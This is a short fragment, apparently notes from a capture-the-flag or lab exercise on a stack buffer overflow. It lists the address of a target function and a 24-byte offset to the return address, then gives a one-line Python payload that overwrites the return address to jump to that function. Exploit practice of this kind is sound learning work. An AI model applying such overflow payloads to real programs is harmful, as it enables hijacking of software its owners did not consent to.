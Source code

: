 binFunction(): 0x00000000004006e6
bytes to ret: 24
payload: python -c 'print "A"*24 + "\xe6\x06\x40\x00\x00\x00\x00\x00"'

